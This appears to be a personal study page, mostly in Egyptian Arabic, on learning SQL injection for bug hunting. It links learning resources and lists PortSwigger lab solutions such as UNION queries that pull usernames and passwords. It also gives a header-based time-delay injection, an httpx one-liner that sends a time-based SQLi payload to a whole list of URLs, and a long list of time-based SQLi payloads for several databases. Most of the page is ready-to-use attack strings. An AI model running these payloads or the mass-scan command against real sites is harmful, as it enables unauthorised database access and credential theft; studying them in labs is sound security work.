 - start
    
    البوست دا مهم جدا جدا للناس بتاعه Bug hunting & peneteration testing  
    النهارده هتكلم علي ثغره sql  
    انا شايفها متواجده ف كل مكان ومينفعش متجربهاش كويس  
    اول حاجه انا كان ف كورس مروفعو علي ميجا كان بيفهمك الQueries  
    وبيفهمك تلاقيها ازايوازاي تعمل Discovering Schema and Extracting Data وحجات تانيه كتير بامانه مفيده اووي بس للاسف هو اتمسح وانا النت عندي خلصان انشاء الله انا هرفعلكو الدنيا دي كلها
    
    تاني حاجه ياسيدي هتبدا تقرا الكتاب دا حرفيا كنز بيفهمك كل حاجه عن السكوال انا بامانه استفدت منه كتيير اووي  
    [http://www.amazon.com/SQL-Injection-Attacks-Defense-Second/dp/1597499633/](http://www.amazon.com/SQL-Injection-Attacks-Defense-Second/dp/1597499633/)
    
    تبدا تحل بعد كدا علي بورت سويجر  
    [https://portswigger.net/web-security/all-labs](https://portswigger.net/web-security/all-labs)  
    كمان متحلش لابات الا ام تكون فاهم فعلا اي هيا السكوال
    
    عندك هنا Blog محترمه  
    بص عليها بصه :  
    [https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
    
    دي برضو شويه لابات حلوه :  
    [https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs)
    
    عندك برضو مدونه حلوه اووي بتديك كل ميثود بتاع الكويريز هتستفاد منها جامد  
    [https://rails-sqli.org/](https://rails-sqli.org/)
    
    عندك الفيديو دا لtry hack me  
    لو انت مش معاك اك تشترك  
    [https://www.youtube.com/watch?v=VIkVqvo97Hk](https://www.youtube.com/watch?v=VIkVqvo97Hk)
    
    اخيرا وليس باخرا عمك جون حال لاب HTB  
    [https://www.youtube.com/watch?v=SEuyruffJTw](https://www.youtube.com/watch?v=SEuyruffJTw)  
    ربنا يوفقكو يشباب كل اللي محتاجه دعوه من قلبك
    

- [ ] [**SQL injection UNION attack, determining the number of columns returned by the query**](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) `**'+UNION+SELECT+NULL,NULL,NULL--**`
- [ ] [**SQL injection UNION attack, finding a column containing text**](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text) `'+UNION+SELECT+NULL,'hacked',NULL--`
- [ ] [**SQL injection UNION attack, retrieving data from other tables**](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables) `'+UNION+SELECT+username,+password+FROM+users--`
- [ ] [**SQL injection UNION attack, retrieving multiple values in a single column**](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column) `**'+UNION+SELECT+NULL,username||'~'||password+FROM+users--**`
- [ ] [**SQL injection attack, querying the database type and version on Oracle**](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle) `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`
- [ ] [**SQL injection attack, querying the database type and version on MySQL and Microsoft**](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)`'+UNION+SELECT+@@version,+NULL\#--`
- [ ] [**SQL injection attack, listing the database contents on non-Oracle databases**](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
- [ ] `X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z`
- [ ] `cat urls | httpx -silent -path 'sitemap.xml? offset=1%3bSELECT%20IF((8303%3E8302)%2cSLEEP(10)%2c2356)%23' -rt -timeout 20 -mrt '>10’`
- [ ] `admin');SELECT PG_SLEEP(5)--`

- Time Based SQLi Payloads 

```python
sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
1 or benchmark(10000000,MD5(1))#
" or benchmark(10000000,MD5(1))#
' or benchmark(10000000,MD5(1))#
1) or benchmark(10000000,MD5(1))#
") or benchmark(10000000,MD5(1))#
') or benchmark(10000000,MD5(1))#
1)) or benchmark(10000000,MD5(1))#
")) or benchmark(10000000,MD5(1))#
')) or benchmark(10000000,MD5(1))#
pg_sleep(5)--
1 or pg_sleep(5)--
" or pg_sleep(5)--
' or pg_sleep(5)--
1) or pg_sleep(5)--
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)--
AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
SLEEP(5)='
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
waitfor delay '00:00:05'
waitfor delay '00:00:05'--
waitfor delay '00:00:05'#
benchmark(50000000,MD5(1))
benchmark(50000000,MD5(1))--
benchmark(50000000,MD5(1))#
or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))--
or benchmark(50000000,MD5(1))#
pg_SLEEP(5)
pg_SLEEP(5)--
pg_SLEEP(5)#
or pg_SLEEP(5)
or pg_SLEEP(5)--
or pg_SLEEP(5)#
'\"
AnD SLEEP(5)
AnD SLEEP(5)--
AnD SLEEP(5)#
&&SLEEP(5)
&&SLEEP(5)--
&&SLEEP(5)#
' AnD SLEEP(5) ANd '1
'&&SLEEP(5)&&'1
ORDER BY SLEEP(5)
ORDER BY SLEEP(5)--
ORDER BY SLEEP(5)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
+benchmark(3200,SHA1(1))+'
+ SLEEP(10) + '
RANDOMBLOB(500000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/
```
